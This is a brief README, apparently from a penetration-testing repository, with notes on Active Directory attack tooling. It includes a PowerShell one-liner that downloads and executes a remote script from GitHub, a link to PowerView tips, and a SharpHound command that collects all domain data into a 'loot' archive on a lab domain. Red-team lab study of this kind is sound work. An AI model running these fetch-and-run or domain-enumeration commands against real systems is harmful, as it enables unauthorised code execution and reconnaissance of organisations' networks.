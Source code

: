 # ActiveDirectory
A bunch of Active Directory including scripts and tools

Import AD Module without RSAT - ```iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory```

PowerView tips and tricks - https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993

SharpHound Collectors - https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe

. .\SharpHound.ps1
Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.lab -OutputDirectory C:\Temp -ZipFileName loot123.zip
